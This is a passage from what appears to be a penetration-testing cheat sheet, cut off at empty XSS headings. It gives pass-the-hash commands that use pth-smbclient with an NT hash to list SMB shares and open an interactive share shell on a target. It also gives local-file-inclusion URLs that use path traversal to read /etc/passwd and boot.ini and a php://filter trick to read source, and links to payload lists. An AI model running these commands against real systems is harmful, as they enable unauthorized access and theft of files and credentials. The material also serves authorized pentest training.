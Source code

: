 ```shell
sudo pth-smbclient --user=user --pw-nt-hash -m smb3  -L 192.168.0.24 \\\\192.168.0.24\\ ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

### Interactive smb shell

`sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3 \\\\<target_ip>\\shared_folder <hash>`

```shell
sudo pth-smbclient --user=user --pw-nt-hash -m smb3 \\\\192.168.0.24\\folder ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

## Web Application

### Web Remote code

### LFI (Local File Inclusion)

Situation

```shell
http://<target>/index.php?parameter=value
```

#### How to Test

```shell
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
```

```shell
http://<target>/script.php?page=../../../../../../../../etc/passwd

```

```shell
http://<target>/script.php?page=../../../../../../../../boot.ini
```

#### LFI Payloads

- [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- [Seclist LFI Intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### Encode

## XSS

### Reflected

#### Simple test
